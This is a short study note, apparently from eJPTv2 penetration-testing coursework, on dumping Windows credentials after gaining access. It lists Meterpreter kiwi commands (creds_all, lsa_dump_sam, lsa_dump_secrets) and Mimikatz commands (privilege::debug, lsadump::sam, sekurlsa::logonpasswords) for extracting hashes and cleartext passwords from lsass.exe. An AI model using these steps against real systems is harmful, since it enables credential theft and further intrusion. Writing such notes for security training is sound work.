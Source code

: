 Tags: #template 
Related to: #note-taking, #notes
See also: 
Index: [[📁EJPTv2 - INDEX]] 

#### Summary
Add a brief overview of what the content is

#### Content
Mimikatz - post exploitation tool

Can be used to extract hashes from lsass.exe process memory

Alternatively we can use meterpreter extention kiwi if we have a meterpreter session.

Requires elevated privs to run correctly.

---
Using kiwi to dump
---
Get initial access on system
get a meterpreter shell
find and migrate to lsass.exe
load kiwi
use ? get all options
creds_all, lsa_dump_sam, lsa_dump_secrets

or 
Using mimicatz
---
upload mimicatz - upload /usr/share/windows/mimikatz/x64/mimicatz.exe
run mimicatz from shell
check if u have privs - privilege::debug
lsadump::sam - dumps sam database
lsadump::secrets - dumps secrets
sekurlsa::logonpasswords - can find if any cleartext passwords are stored




###### References  (optional )